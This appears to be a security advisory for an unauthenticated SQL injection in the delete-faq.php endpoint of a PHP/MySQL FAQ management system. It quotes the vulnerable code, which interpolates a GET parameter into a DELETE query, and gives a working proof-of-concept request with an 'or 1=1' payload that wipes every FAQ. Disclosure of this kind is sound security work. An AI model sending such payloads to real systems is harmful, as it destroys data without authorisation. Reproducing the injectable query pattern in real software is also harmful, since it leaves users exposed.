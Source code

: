 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [FAQ Management System Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> FAQ Management System Using PHP and MySQL 1.0

**Affected Site Page**: 
> /faq-management-system/endpoint/delete-faq.php<br/>

**Affected Code**: 
> </delete-faq.php [function delete_class()]> <br/>

```php
<?php
include ('../conn/conn.php');

if (isset($_GET['faq'])) {
    $faq = $_GET['faq'];

    try {

        $query = "DELETE FROM tbl_faq WHERE tbl_faq_id = '$faq'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();

        if ($query_execute) {
            echo "
                <script>
                    alert('FAQ deleted successfully!');
                    window.location.href = 'http://localhost/faq-management-system/';
                </script>
            ";
        } else {
            echo "
                <script>
                    alert('Failed to delete faq!');
                    window.location.href = 'http://localhost/faq-management-system/';
                </script>
            ";
        }

    } catch (PDOException $e) {
        echo "Error: " . $e->getMessage();
    }
}

?>
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all FAQs are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/9727f7a4-b6ee-4f4b-b570-98dad4f579de)

```http 
GET /faq-management-system/endpoint/delete-faq.php?faq=1337'+or+1=1--+ HTTP/1.1
Host: localhost
Connection: close
```

> DELETES all FAQs without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/9f60b7fd-746f-4ddf-88fb-72133a16e6e4)

## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
